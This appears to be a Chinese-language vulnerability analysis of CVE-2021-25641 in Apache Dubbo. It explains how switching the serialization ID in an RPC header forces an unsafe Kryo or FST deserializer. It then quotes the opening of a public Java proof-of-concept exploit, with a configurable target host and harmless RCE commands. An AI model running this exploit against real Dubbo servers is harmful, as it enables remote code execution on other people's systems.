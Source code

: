 
Dubbo中对支持的协议做了一个编号，每个序列化协议都有一个对应的编号，以便在获取TCP流量后，根据编号选择相应的反序列化方法。在org.apache.dubbo.common.serialize.Constants中可见每种序列化协议的编号

![image-20250209111152673](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250209111152673.png)

而在Dubbo的RPC通信时，对流量的规定最前方为header，而header中通过指定 SerializationID，确定客户端和服务提供端通信过程使用的序列化协议。



虽然Dubbo provider默认使用hessian2协议，但是我们可以手动修改数据包Serialization ID，选择危险的反序列化方式，如 8 KryoSerialization / 9 FstSerialization

POC：

https://github.com/Dor-Tumarkin/CVE-2021-25641-Proof-of-Concept/blob/main/DubboProtocolExploit/src/main/java/DubboProtocolExploit/Main.java

```java
import com.alibaba.fastjson.JSONObject;
import org.apache.dubbo.common.io.Bytes;
import org.apache.dubbo.common.serialize.Serialization;
import org.apache.dubbo.common.serialize.fst.FstObjectOutput;
import org.apache.dubbo.common.serialize.fst.FstSerialization;
import org.apache.dubbo.common.serialize.kryo.KryoObjectOutput;
import org.apache.dubbo.common.serialize.kryo.KryoSerialization;
import org.apache.dubbo.common.serialize.ObjectOutput;
import org.apache.dubbo.rpc.RpcInvocation;
import org.apache.dubbo.serialize.hessian.Hessian2ObjectOutput;
import org.apache.dubbo.serialize.hessian.Hessian2Serialization;
/*import com.alibaba.dubbo.common.io.Bytes;
import com.alibaba.dubbo.common.serialize.Serialization;
import com.alibaba.dubbo.common.serialize.fst.FstObjectOutput;
import com.alibaba.dubbo.common.serialize.fst.FstSerialization;
import com.alibaba.dubbo.common.serialize.kryo.KryoObjectOutput;
import com.alibaba.dubbo.common.serialize.kryo.KryoSerialization;
import com.alibaba.dubbo.common.serialize.ObjectOutput;*/

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.OutputStream;
import java.io.Serializable;
import java.lang.reflect.Method;
import java.net.Socket;

/*  This Dubbo protocol exploit affects versions <= 2.7.3,
    and will print "whoops!" on the server's console via RCE.

    This issue is caused by deserialization of untrusted data,
    triggered via a communication protocol that allows dynamically
    switching to a vulnerable deserializer, and exploited with a
    payload gadget chain based on FastJson

    On Windows servers - it will try to execute calc.exe
    On Linux servers - it will touch /tmp/dubboexploited
 */

public class KryoAndFst {
    // Customize URL for remote targets
    public static String DUBBO_HOST_NAME = "localhost";
    public static int    DUBBO_HOST_PORT = 20880;

    // OS-specific payloads - comment to switch OS variants
    // exploit will print "whoops!" on server console either way
    //public static String DUBBO_RCE_COMMAND = "touch /tmp/dubboexploited"; // Linux
    public static String DUBBO_RCE_COMMAND = "calc.exe"; // Windows

```